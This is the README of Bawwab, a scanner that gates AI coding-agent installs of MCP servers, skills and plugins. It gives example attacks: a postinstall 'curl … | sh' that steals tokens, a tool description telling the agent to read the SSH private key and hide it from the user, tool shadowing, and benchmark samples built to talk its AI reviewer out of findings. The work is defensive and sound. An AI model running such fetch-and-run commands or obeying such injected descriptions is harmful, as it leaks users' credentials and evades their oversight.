

<div align="center">

```text
                      _____________
                    /      |      \
                   |       |       |
                   |   o   |   o   |
                   |       |       |
                   |_______|_______|

 ____      _    __        ____        ___    ____
| __ )    / \   \ \      / /\ \      / / \  | __ )
|  _ \   / _ \   \ \ /\ / /  \ \ /\ / / _ \ |  _ \
| |_) | / ___ \   \ V  V /    \ V  V / ___ \| |_) |
|____/ /_/   \_\   \_/\_/      \_/\_/_/   \_\____/

        nothing gets in without the gatekeeper
```

# بوّاب · Bawwab

### The gatekeeper for your AI agent's extensions

**Bawwab scans MCP servers, skills and plugins for malicious behaviour *before* your agent installs them,
and blocks anything suspicious until you say yes.**


[](LICENSE)

</div>

---

## Why

Coding agents install MCP servers, skills and plugins with a single command. Once installed, these run with
**your agent's permissions**: they can read your files, reach the network, and change what your agent does.

Almost nobody checks them first. The threats are real:

- **Install-time malware:** a `postinstall` that runs `curl … | sh` and steals your tokens.
- **Prompt injection hidden in tool descriptions:** a tool's description quietly asks the agent to fetch your SSH private key, paste it into its answer, and keep the user in the dark.
- **Rug-pulls:** version 1.0 is clean, and version 1.1 quietly BCCs every email to an attacker.
- **Tool shadowing:** one server's description rewrites how *another* server's `send_email` behaves.
- **Typosquats:** `@modelcontextprotocol/server-githb`.

Bawwab (بوّاب, *"gatekeeper"*) stands at the door.

## What it looks like

You ask Claude to add an MCP server. Bawwab steps in before the install runs:

```text
⛔ bawwab: SUSPICIOUS — @someone/github-mcp@1.2.0  (standard scan)
  HIGH  F3a91c  package.json:7     postinstall runs: curl https://x.io/i | sh
  HIGH  F8c20d  src/tools.ts:41    tool "list_repos" description: "…read ~/.ssh/id_rsa…"
  MED   F07be2  identity           name 1 edit from @modelcontextprotocol/server-github
Blocked pending your approval. To allow:  ! bawwab approve a7f3
Deep scan first:  ! bawwab scan --deep @someone/github-mcp@1.2.0
Explain a finding:  ! bawwab explain F3a91c
```

Only **you** can approve it. Claude can't run `bawwab approve` itself, so a prompt-injected agent can't wave itself through.

## How it works



Bawwab checks at two points:

1. **Before the install runs (the gate).** A Claude Code `PreToolUse` hook recognises install actions:
   `claude mcp add`, `claude plugin install`, edits to `.mcp.json` or `~/.claude.json`, copies into `~/.claude/skills`, and more.
   It downloads the target **without executing it** and scans it.
2. **After the command runs (the effect check).** No parser understands every bash trick, so Bawwab also watches
   what *actually changed* in Claude's config and install folders. Anything new and unscanned is scanned and quarantined.
   While something is quarantined, every tool call except read-only ones is blocked until you approve or reject it.

### What it looks for

| Layer | Catches |
|---|---|
| 🔍 **Static rules** | install scripts, `curl \| sh`, eval of decoded or fetched code, credential access (`~/.ssh`, `.env`, `~/.aws`), exfiltration hosts, obfuscation, hidden Unicode, prompt-injection phrasing, tool shadowing, risky plugin hooks, typosquats |
| ☣️ **Known malware** | npm and PyPI packages listed as malicious (`MAL-*`) in [OSV](https://osv.dev), from the [OpenSSF malicious-packages](https://github.com/ossf/malicious-packages) feed. A failed lookup is a note, not a block. |
| 🧠 **Claude review** | intent: *"does this try to steer the agent or hide something from the user?"* Scanned text is passed as quoted, untrusted data. The review can **raise** a verdict, never lower one. |
| 🔁 **Rug-pull diff** | remembers what you trusted and shows exactly what changed: `bawwab diff <name>` |
| 🕸️ **Cross-server check** | server A's text steering server B's tools |
| 📦 **Deep mode** *(coming)* | runs the server in a locked-down Docker sandbox with decoy credentials and a network trap |

### Design rules

- **Never executes what it scans.** It downloads over registry APIs and extracts archives safely. No `npm install`, no imports.
- **Fails closed.** If a scan errors, times out, or Claude's review returns garbage, the result is *suspicious*, never *clean*.
- **Can't be talked out of a finding.** A static red flag always reaches you, whatever the scanned text says to the reviewer.
- **Never grants permission.** A clean scan doesn't approve the command. Claude Code's normal permission rules still apply.
- **Low noise.** It's tested against real packages (official MCP servers, Playwright, DigitalOcean and others), which must come back clean.

## Benchmark

Bawwab is measured against a labelled corpus in [`bench/`](bench/): handwritten malicious samples for every rule
family (canary values and `.invalid` hosts only), samples written to talk the AI reviewer out of a finding,
benign look-alikes, and popular real packages and skills at pinned versions. Real malware comes from the
[DataDog malicious-software-packages dataset](https://github.com/DataDog/malicious-software-packages-dataset),
unpacked by Bawwab's own safe extractor and never executed.

```bash
uv run python bench/run.py --static-only     # static rules only, no AI review
uv run python bench/run.py                   # static + Claude review (needs ANTHROPIC_API_KEY)
uv run python bench/run.py --static-only --datadog   # add the real-malware recall set
```

A sample counts as caught when its verdict is at least its label (clean < suspicious < malicious). Static
rules alone stop at *suspicious* for prompt injection, hidden Unicode, tool shadowing and eval of fetched code;
the Claude review is what raises those to *malicious*, so the static run below understates recall by design. CI runs the static
benchmark on every push and fails above a 10% false-positive rate on the safe set.

<!-- bench:start -->
Mode: **static-only**. 73 samples: 32 malicious or suspicious, 41 safe.

| Category | Samples | Caught | Precision | Recall |
|---|---|---|---|---|
| credential-exfil | 7 | 4/4 | 100% | 100% |
| cross-server | 3 | 1/2 | 100% | 50% |
| hidden-unicode | 3 | 0/2 | n/a | 0% |
| install-script | 5 | 4/4 | 80% | 100% |
| mcp-server | 17 | 0/0 | 0% | n/a |
| obfuscation | 5 | 4/4 | 100% | 100% |
| plugin-hooks | 4 | 2/2 | 100% | 100% |
| prompt-injection | 6 | 0/5 | n/a | 0% |
| remote-code | 4 | 0/3 | n/a | 0% |
| skill | 11 | 0/0 | n/a | n/a |
| telemetry | 1 | 1/1 | 100% | 100% |
| tool-shadowing | 4 | 0/3 | n/a | 0% |
| typosquat | 3 | 2/2 | 100% | 100% |
| **all** | 73 | 18/32 | 90% | 56% |

- **False-positive rate on the safe set:** 5% (2/41)
- **Flagged at all** (any non-clean verdict) among malicious samples: 94% (30/32)
- **Adversarial samples** (written to talk the AI reviewer out of a finding): 3/6 caught
- **Real malware** (DataDog dataset, npm): flagged 67/100 (67%), malicious 36/100; GuardDog 90/100
- **Real malware** (DataDog dataset, pypi): flagged 80/100 (80%), malicious 13/100; GuardDog 99/100

Misclassified:

- `malicious/adv-quote-breakout`: expected malicious, got clean (no findings)
- `malicious/adv-reviewer-preapproved`: expected malicious, got suspicious (injection.covert-action, injection.override)
- `malicious/adv-scanner-system-note`: expected malicious, got suspicious (injection.override)
- `malicious/cross-notes-steer-mailer`: expected malicious, got suspicious (cross-server.reference)
- `malicious/inject-html-comment`: expected malicious, got suspicious (injection.covert-action, injection.html-comment)
- `malicious/inject-skill-ssh`: expected malicious, got suspicious (injection.covert-action, injection.override)
- `malicious/inject-tool-poisoning`: expected malicious, got suspicious (credential-access)
- `malicious/remote-js-fetch-eval`: expected malicious, got suspicious (remote-code.eval-fetch)
- `malicious/remote-py-exec-urlopen`: expected malicious, got suspicious (remote-code.eval-fetch)
- `malicious/remote-skill-curl-bash`: expected malicious, got suspicious (remote-code.pipe-shell)
- `malicious/shadow-bcc-email`: expected malicious, got suspicious (tool-shadowing)
- `malicious/shadow-redirect-payments`: expected malicious, got clean (no findings)
- `malicious/unicode-tag-chars-tool`: expected malicious, got suspicious (injection.hidden-unicode)
- `malicious/unicode-zero-width-skill`: expected malicious, got suspicious (injection.hidden-unicode)
- `safe/native-addon-gyp`: expected clean, got suspicious (install-script)
- `package/@notionhq/notion-mcp-server@2.6.1`: expected clean, got suspicious (exfil.combo) — known FP (R49): bundled express deps call Function on runtime-built code, which trips the R47 untrusted-resolution switch; not tuned away

Correct means the verdict is at least the label (clean < suspicious < malicious). Precision counts clean-labelled samples that were flagged as false positives.
<!-- bench:end -->

## Install

> **Status: pre-release (v0.1).** v0.1 is used as a Claude Code plugin: that's what installs the gate, the
> effect check and the MCP tools. The CLI also works on its own for one-off scans.

### Requirements

- Python **3.12+** and [`uv`](https://docs.astral.sh/uv/) on your `PATH` (the plugin's hooks call `python3` and `uv`)
- [Claude Code](https://claude.com/claude-code), used for the review step through your existing login. Alternatively, set `ANTHROPIC_API_KEY`.

### Claude Code plugin

```text
/plugin marketplace add anasAsh/bawwab
/plugin install bawwab@bawwab
```

Restart Claude Code (or start a new session) after installing. On first start, Bawwab asks whether to scan
everything you already have installed, or to trust it as-is and only check new installs. Hooks and settings
that other plugins and tools had already configured come back as **one batch** with a single approval id, not
one prompt each.

The plugin adds:

- **Hooks:** `PreToolUse` (the gate and the effect check), `PostToolUse` (the effect check after a tool
  changed something), `SessionStart` (the inventory) and `UserPromptSubmit` (deferred warnings). Ordinary tool
  calls pass in milliseconds without starting bawwab.
- **The `bawwab` skill:** tells Claude to show blocks verbatim, never run `bawwab approve` itself, and never
  route around a block.
- **The `bawwab` MCP server** (see [MCP tools](#mcp-tools)).
- **The `bawwab` command** (`bin/bawwab`, a small launcher for the plugin's own copy, in the same virtualenv as
  the hooks). Claude Code puts it on the `PATH` of Claude's Bash tool, so you don't need the CLI install below.
  Your `!` shell may not have it on its `PATH`; when it doesn't, Bawwab's messages print the launcher's full
  path instead of `bawwab`, so you can copy the command as shown.

If setup can't install Bawwab's dependencies (offline, a proxy, uv missing), install commands are held, and
once Bawwab is initialised so are other tool calls after a config change; read-only tools (Read, Grep, Glob)
keep working. Setup retries itself about once a minute. To retry now and see the error, run
`! bawwab setup --retry` (or the full launcher path Bawwab shows), and check your proxy (`HTTPS_PROXY`),
network and uv configuration. Last resort: `/plugin disable bawwab`, which turns Bawwab's protection off.

The installed plugin is a runtime-only tree: the code, hooks, skill and manifest, with no tests or benchmark
samples. The marketplace installs it from the repo's `plugin` branch.

**Bawwab scans itself as SUSPICIOUS, and that's the honest answer.** It reads your Claude config
(`~/.claude.json`, `~/.claude/…`), runs a hook on every tool call, and its MCP server starts through `uv run`,
which downloads and installs its Python dependencies on first start (those are checked against the known-malware
list, but not scanned): exactly what it would warn you about in any other plugin. The first start sets up in the
background for about a minute; until then Bawwab holds install commands and lets everything else through. Its rules aren't bent for itself, and nothing is exempt by name. So when Bawwab gates an
install or upgrade of Bawwab, you see those findings and approve once per version. Afterwards, the inventory and
effect check recognise the copy whose code is actually running (same real path as the running hook, named
`bawwab`, not a symlink) and list it as "bawwab (running code, not scanned)". Any other copy called bawwab is
scanned like everything else.

### CLI only (optional)

```bash
uv tool install "git+https://github.com/anasAsh/bawwab@feat/bawwab"
bawwab --help

# or run it without installing
uvx --from "git+https://github.com/anasAsh/bawwab@feat/bawwab" bawwab scan <target>
uvx bawwab scan <target>        # once it is published to PyPI
```

The plugin already gives you the `bawwab` command inside Claude Code sessions; install the CLI only if you want
it in other terminals or CI. The CLI scans and decides, but without the plugin nothing gates Claude's installs.
Having both is fine: the
plugin's hooks and MCP server always run the plugin's own copy, pinned to its `uv.lock` (`uv run --frozen`,
with its virtualenv in the plugin's data folder), never a `bawwab` found on your `PATH`.

## Usage

```bash
# Scan anything before you install it
bawwab scan @modelcontextprotocol/server-github     # npm package
bawwab scan pypi:mcp-server-fetch                   # PyPI package
bawwab scan https://github.com/owner/some-mcp       # git repo
bawwab scan ./my-skill                              # local skill / plugin folder
bawwab scan https://mcp.example.com/mcp             # remote MCP server (lists its tools)
bawwab scan <target> --json                         # machine-readable report

# Decide on something Bawwab blocked
bawwab approve <id>            # allow it (malicious items need --force)
bawwab reject <id>             # refuse it; quarantined items are removed, with a backup

# Understand a result
bawwab explain <finding-id>    # plain-language reason + suggested fix
bawwab diff <name>             # what changed since you trusted it

# Everything already installed
bawwab init --scan             # first run: scan everything now
bawwab effects                 # list quarantined items
```

Exit codes for `bawwab scan`: `0` clean · `1` suspicious · `2` malicious · `3` error, so it slots into CI.

In Claude Code, type these as `! bawwab …`: the `!` runs them in your shell, as you. If `bawwab` isn't on your
shell's `PATH` (plugin only), use the command exactly as Bawwab's message prints it, which names the plugin's
launcher by its full path. Claude can run `scan`, `explain`, `diff`, `init --scan` and `setup --retry`, but
never `approve`, `reject` or `init --skip`, by any name or path.

### MCP tools

The plugin's `bawwab` MCP server lets Claude answer *"is this safe?"* with a real scan. The tools only scan:
nothing here installs, approves, rejects or clears a quarantine.

| Tool | Does |
|---|---|
| `scan_mcp_server` | scan an MCP server: npm or PyPI package, git or HTTPS URL, or a local path |
| `scan_skill` | scan a skill folder or spec |
| `scan_plugin` | scan a Claude Code plugin |
| `diff_since_trusted` | what changed since you trusted a target |
| `explain_finding` | plain-language reason and fix for a finding id |

Reports come back framed as untrusted data, with bawwab's own instructions kept outside the frame.

## Configuration

`~/.bawwab/config.json`. A project can override it with `.claude/bawwab.json`, but only to make things **stricter**.

```json
{
  "mode": "standard",
  "llm": { "backend": "claude-cli", "model": "claude-sonnet-5-5" },
  "thresholds": { "malicious": "critical", "suspicious": "med" },
  "trusted": ["@modelcontextprotocol/*"]
}
```

## How it resists prompt injection

Everything Bawwab scans is written by someone who may be attacking the agent that reads the result. So:

- **Approval is out of the agent's reach.** `bawwab approve`, `reject` and `init --skip`, edits to Bawwab's own
  files and state, and disabling or uninstalling the plugin are protected actions: the gate denies them when
  Claude tries, in any form it can recognise. Only you, from a `!` shell, can let something through.
- **The review can only raise risk.** Claude's review sees the scanned text as quoted, untrusted data and is
  asked a narrow question. Its answer can raise a verdict, never lower one, and a garbled answer counts as
  suspicious. Text written to talk the reviewer out of a finding is part of the benchmark.
- **Static findings always reach you.** No scanned text can suppress a static rule.
- **Output is sanitised and framed.** Control characters, ANSI escapes and invisible format characters are
  stripped from the untrusted text Bawwab prints. MCP tool results mark the quoted part as data, not instructions.
- **No permission is granted.** Bawwab only ever denies. A clean scan leaves Claude Code's normal permission
  rules in charge, so a target that fools the scanner still gets the usual prompt.
- **What actually changed is checked too.** Even if a command slips past the gate, the effect check sees the
  new server, skill, plugin or hook in Claude's configuration and quarantines it until you decide.

## Honest limitations

- A plugin whose MCP server starts through a package manager (`uv run`, `npm start`, `poetry run`, …) is
  always at least SUSPICIOUS: what it downloads and builds when it starts isn't scanned. Packages pinned in a
  `uv.lock` are checked against the known-malware list (OSV), which only knows *reported* malware.
- The hooks only see what **Claude** does. Things you install yourself in your own terminal aren't gated;
  the effect check and the session-start inventory catch them after the fact.
- Bash parsing is best-effort. The gate recognises the install commands and config edits it knows, and bash
  has endless ways to hide one. The effect check is the backstop, and it acts after the command has run.
- The `SessionStart` inventory only warns. What it finds in things already installed arrives as a warning
  with your next prompt; it doesn't block anything.
- Static rules can be dodged by determined obfuscation. That's why there's a Claude review, a "never below
  suspicious" floor for credential-plus-network code, and an effect check. Bawwab raises the bar a lot; it doesn't promise perfection.
- Bawwab runs as the same OS user as Claude's tool shell. The gate refuses a Claude-run approval through any
  name or copy of the `bawwab` command, `python -m bawwab`, shell writes to its state, and a script or makefile
  that holds one: when a command runs a file with `sh`/`bash`/`.`/`source`/`./`/`make` or a Python/Node script,
  the gate reads it (three files deep) and refuses a protected call inside, and writing such a call into any
  file is refused. It can't see indirect execution: compiled programs, interpreters reading code from the
  network, runtime-computed paths, other task runners (npm scripts, just). An agent that deliberately forges
  bawwab's state as the same user is out of reach.
- v1 protects **Claude Code**. Cursor, Codex CLI, Claude Desktop and VS Code are planned for v1.1 (see roadmap).

## Roadmap

- [x] Static scanner: code, manifest, prompt-injection and identity rules
- [x] Download-only fetchers (npm, PyPI, git, local, remote MCP)
- [x] Claude review (escalate-only, injection-resistant)
- [x] Rug-pull snapshots and cross-server analysis
- [x] Install gate for Claude Code, with approvals and version pinning
- [x] Session-start inventory and real-world precision tuning
- [x] Effect check and quarantine
- [x] MCP server tools: `scan_mcp_server`, `scan_skill`, `scan_plugin`, `diff_since_trusted`, `explain_finding`
- [x] Labelled benchmark with published precision and recall, run in CI
- [ ] One-command Claude Code plugin
- [ ] Effectiveness evaluation: real-incident replicas and a red-team in a sandbox
- [ ] Deep mode: Docker sandbox with canary credentials
- [ ] **v1.1:** Cursor, Codex CLI, Claude Desktop and VS Code adapters, plus a background watcher

## Development

```bash
uv sync
uv run pytest -q                                   # the test suite
uv run python bench/run.py --markdown              # the benchmark (rewrites the README block)
python3 scripts/build_plugin.py /tmp/bawwab-plugin # build the runtime-only plugin tree
claude --plugin-dir /tmp/bawwab-plugin             # try that tree in Claude Code without a marketplace
```

`scripts/build_plugin.py` copies only what runs (`.claude-plugin/plugin.json`, `hooks/`, `skills/`, `bawwab/`,
`pyproject.toml`, `uv.lock`, `LICENSE`, `NOTICE`, `README.md`) and turns symlinks into real files. That tree is
what gets published to the `plugin` branch, and what the dogfood test scans.

## Contributing

Bawwab is an open-source community project. Issues and PRs are welcome,
especially **bypasses**. If you can get something past the gatekeeper, open an issue with a harmless reproduction.
Please use canary values and `.invalid` hosts, never live malware.

## License

[MIT](LICENSE) © 2026 Anas Al-Hamdan

The known-malware lookup queries [OSV](https://osv.dev), which publishes the
[OpenSSF malicious-packages](https://github.com/ossf/malicious-packages) data under the Apache License 2.0.
See [NOTICE](NOTICE).

<div align="center">
<sub>Built with care in Amman 🇯🇴 · <i>"A good gatekeeper knows who to let in."</i></sub>
</div>
